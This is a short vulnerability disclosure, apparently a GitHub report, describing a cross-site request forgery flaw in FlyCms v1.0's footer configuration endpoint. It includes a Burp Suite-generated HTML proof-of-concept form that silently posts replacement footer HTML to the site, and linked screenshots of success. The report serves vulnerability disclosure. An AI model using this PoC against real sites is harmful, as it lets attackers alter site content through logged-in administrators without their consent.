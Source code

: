 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/site/config_footer_updagte

![1](https://github.com/zouyang0714/cms/assets/154772814/f086a835-1780-4359-8f3d-1643f242a8f0)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/site/config_footer_updagte" method="POST">
      <input type="hidden" name="fly_footer_code" value="&lt;footer&#32;id&#61;&quot;footer&quot;&gt;&#10;&lt;div&#32;class&#61;&quot;container&quot;&gt;&#10;&#9;cs123&#10;&lt;&#47;div&gt;&#10;&lt;&#47;footer&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![2](https://github.com/zouyang0714/cms/assets/154772814/4fa85c23-af50-4505-9008-08a7fdaab396)

Successed

![3](https://github.com/zouyang0714/cms/assets/154772814/3d24ebd4-c133-4e17-a505-d334ae9a452c)
